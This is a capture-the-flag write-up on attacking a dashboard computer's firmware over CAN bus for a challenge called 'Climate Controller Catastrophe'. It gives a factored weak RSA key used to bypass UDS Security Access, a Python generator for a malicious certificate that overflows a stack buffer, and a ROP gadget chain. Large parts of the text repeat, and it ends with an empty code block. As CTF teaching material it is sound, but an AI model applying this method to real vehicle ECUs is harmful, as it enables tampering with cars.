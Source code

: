 ## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challange with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challanges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunatly I wasn't able to find exact CAN lib in open source, looks like develpers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you don't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware handlers implements standart [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) servise, also nice cheatsheet  available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). For transmiting data larger than 8 byte, OBD2 and UDS utilize additional protocol, which is well described by links abouve.

Current firmware is using 3 UDS services:

 - 0x27 Security Access - challange/responce authentication mechainsim which you need to pass before accessing other services. Current implementation is using RSA scheme with weak key length (32 bits), 31337 public exponent and 2777704703 module, which can be easely factorized by any online tool, using primes we calculate private exponent 690033473. During authentication we receive challange, encrypt it using private exponent and send back.

 - 0x31 Routine Control - service command in case of reciving "014301" value resets stored shared secret to all 0xFF values.

 - 0x3d Write Memory By Address - service command, which allows overwrite range of address in NVM memory, where EC certificate is located (in case of something goes wrong, challange contains additional firmware for wiping NVM memory, it will be usefull for "unbricking" your board).

Next lets look startup routine, after printing "Initializing..." firmware initialize shared secret (HMAC key), if it set to 0xFF additional parsing of stored EC certificate is done. During parsing (function at 0x6297) some size checks are missing which allows us to overflow stack buffer and overwrite return pointer, all we need to do is make special certificate, store it to NVM and reset the board.

```python
def gen_cert(rop_payload):
    cert_name="1"
    cert_name="\x80"+chr(len(cert_name))+cert_name
    curve_name="\x00"*(108)+rop_payload
    curve_name="\x81"+chr(len(curve_name))+curve_name
    magic="3"
    magic="\x82"+chr(len(magic))+magic
    key="4"*0x31
    key="\x83"+chr(len(key))+key
    sig="5"*0x20
    sig="\x84"+chr(len(sig))+sig
    cert=cert_name+curve_name+magic+key+sig
    cert="\x30"+chr(len(cert))+cert
    return cert
```

Before printing the flag there is additional masking which we need to turn off, for this purpose we can use such rop gadgets:
    ROM:4C68    ser     r24
    ROM:4C69    pop     r0
    ROM:4C6A    pop     r29
    ROM:4C6B    pop     r28
    ROM:4C6C    ret

    ROM:8BB2    sts     flag_mask, r24
    ROM:8BB4    pop     r0
    ROM:8BB5    pop     r29
    ROM:8BB6    pop     r28
    ROM:8BB7    ret

    ROM:925D    pop     r17     #set 0x7212 - print_serial()
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:9259    mov     r24, r17 # pass 0x7212 to flag_print()
    ROM:925A    mov     r25, r16
    ROM:925B    pop     r29
    ROM:925C    pop     r28
    ROM:925D    pop     r17
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:8BB8    print_flag:
    ROM:8BB8    push    r28
    ...
    ROM:8BF0    ret

NOTE: Return pointers on XMEGA is stored as 3! bytes in Big Endian.

If everything is correct you will see your flag after "Initializing" message.

[climat](images/climat1.png)

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challange with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challanges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunatly I wasn't able to find exact CAN lib in open source, looks like develpers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you won't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware implements standart [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) handler, nice cheatsheet also available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). UDS include additional protocol for transmiting payloads using multi CAN packets using additional CAN header.



```python

```


